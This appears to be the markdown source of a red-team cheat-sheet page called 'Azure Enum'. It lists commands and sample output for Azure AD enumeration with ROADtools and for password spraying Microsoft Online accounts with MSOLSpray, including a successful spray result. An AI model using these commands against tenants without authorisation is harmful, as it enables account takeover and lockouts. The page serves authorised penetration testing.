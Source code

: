 ```yaml
---
title: "Azure Enum"
date: 2025-02-21
tags: ["Cloud", "Azure", "Password Spraying", "Enumeration", "Microsoft", "Windows", "Reconnaissance"]
---
```


### Recon

{{< tab set1 tab1 >}}ROADTools{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Authenticate

```console
roadrecon auth -u '<USER>' -p '<PASSWORD>'
```

```console {class="sample-code"}
┌──(venv)─(kali㉿kali)-[~]
└─$ roadrecon auth -u 'apple.seed@example.com' -p 'Test1234'
Tokens were written to .roadtools_auth
```

#### 2. Info Gathering

```console
roadrecon gather
```

```console {class="sample-code"}
┌──(venv)─(kali㉿kali)-[~]
└─$ roadrecon gather                                                       
Starting data gathering phase 1 of 2 (collecting objects)
Starting data gathering phase 2 of 2 (collecting properties and relationships)
ROADrecon gather executed in 12.27 seconds and issued 1152 HTTP requests.
```

#### 3. Explore the Data

```console
roadrecon gui
```

```console {class="sample-code"}
┌──(venv)─(kali㉿kali)-[~]
└─$ roadrecon gui   
 * Serving Flask app 'roadtools.roadrecon.server'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit
```

{{< /tabcontent >}}

---

### Password Spraying

> <strong>BE VERY CAREFUL NOT TO LOCKOUT ACCOUNTS!</strong>

{{< tab set2 tab1 >}}MSOLSpray{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Import Module

```console
Import-Module MSOLSpray.ps1
```

#### 2. Run

```console
Invoke-MSOLSpray -UserList <USERS_FILE> -Password
```

```console {class="sample-code"}
┌──(kali㉿kali)-[/home/kali/Desktop/MSOLSpray]
└─PS> Invoke-MSOLSpray -UserList .\users.txt -Password Test1234                                                                                                                                         
[*] There are 10 total users to spray.
[*] Now spraying Microsoft Online.                                                                                                                                                                                  
[*] Current date and time: 02/20/2025 14:48:11                                                                                                                                                                      
[*] SUCCESS! apple.seed@example.com : Test1234
```

<small>*Ref: [MSOLSpray](https://github.com/dafthack/MSOLSpray)*</small>

{{< /tabcontent >}}
